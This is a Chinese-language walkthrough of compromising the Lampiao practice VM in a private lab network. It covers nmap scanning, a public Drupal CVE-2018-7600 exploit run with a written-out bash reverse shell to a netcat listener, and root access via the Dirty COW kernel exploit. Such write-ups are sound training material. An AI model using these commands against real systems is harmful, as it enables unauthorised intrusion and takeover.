# Lampiao 靶机

环境：kali-linux-2025.1

网络：nat

攻击机ip：10.10.10.5

靶机ip：10.10.10.44

## 信息收集

使用 nmap 进行主机发现

```
sudo nmap -sn 10.10.10.0/24
```



10.10.10.44 是新发现的主机，为靶机 IP；使用 nmap 以最低 10000 的速率进行全端口扫描

```
sudo nmap --min-rate 10000 -p- 10.10.10.44
```



一共开放了三个 tcp 端口，使用 nmap 进行详细的端口扫描

```
sudo nmap -sT -sC -sV -p22,80,1839 10.10.10.44
```



可以看到靶机开放 22 端口的 ssh 服务，一般 ssh 服务的渗透优先级靠后；80 端口是一个 http 服务，扫描出来的字符看上去并没有更多信息；1898 端口是一个 Apache 的 http 服务；使用 nmap 进行默认脚本扫描

```
sudo nmap --script=vuln -p22,80,1898 10.10.10.44
```



没有扫描出来可以利用的漏洞信息
## Web 渗透

访问 80 端口，是一个字符串组成的图案，查看源码并没有发现更多信息


访问 1898 端口发现有一个登入界面，尝试常见弱口令没有进去



左下角写着这个开源系统的名称，查看源码，发现详细的版本



github 上找到一个 CVE 利用，下载下来根据提示使用





在 kali 本地建立一个监听，使用脚本连接到 kali

```
sudo nc -lvnp 4444
```

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.44:1898/ -c 'bash -c "/bin/bash -i >& /dev/tcp/10.10.10.5/4444 0>&1"'
```



## Linux 提权

在 tmp 目录下下载 linpeas 进行自动化枚举

```
chmod +x linpeas.sh
```

```
./linpeas.sh
```



发现有 dirty cow 漏洞



使用 searchsploit 搜索并下载 dirty cow 利用脚本

```
searchsploit dirty cow
```

```
searchsploit -m 40847
```



传进 kali 并利用





发现 root 密码被改为了 dirtyCowFun，使用 ssh 连接 root


## 遇到问题

- 在 github 上下载的 内核提权 利用会导致靶机崩溃

解决：使用 searchsploit 库中的 dirty cow 利用


